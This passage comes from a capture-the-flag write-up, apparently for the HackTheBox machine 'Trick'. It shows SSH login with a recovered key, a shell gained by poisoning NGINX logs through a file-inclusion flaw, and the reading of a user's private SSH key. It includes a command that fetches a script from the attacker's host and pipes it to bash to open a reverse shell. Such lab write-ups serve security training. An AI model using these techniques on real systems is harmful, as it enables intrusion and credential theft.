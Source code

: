 

    oxdf@hacky$ chmod 600 ~/keys/trick-michael
    oxdf@hacky$ ssh -i ~/keys/trick-michael michael@trick.htb
    Linux trick 4.19.0-20-amd64 #1 SMP Debian 4.19.235-1 (2022-03-17) x86_64

    The programs included with the Debian GNU/Linux system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.

    Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
    permitted by applicable law.
    michael@trick:~$ 



### Shell Via Log Poisoning

Using the LFI in the marketing page, I can also read the NGINX access
logs:

[![](/img/image-20221027102405426.png)*Click
for full size
![image*](/img/image-20221027102405426.png)

The user agent is logged there, so I'll send something with a webshell
in it:

![](/img/image-20221027103012501.png)

I'll include the string 0xdf to find within the potentially large log.
Now I'll include the log again, and this time there's execution:

[![](/img/image-20221027103154643.png)*Click
for full size
![image*](/img/image-20221027103154643.png)

To get a shell, I'll use `&cmd=curl+10.10.14.6/s|bash` , and host a
simple [Bash Reverse Shell](https://www.youtube.com/watch?v=OjkVep2EIlw)
with a Python webserver.

### Shell Via SSH Key Read

With the file include as michael, and `id_rsa` is a default name for a
private key, there's no reason I can't just read that SSH key, skipping
the LFI remote code execution:

![](/img/image-20221015071233762.png)

## Shell as root

### Enumeration

#### sudo
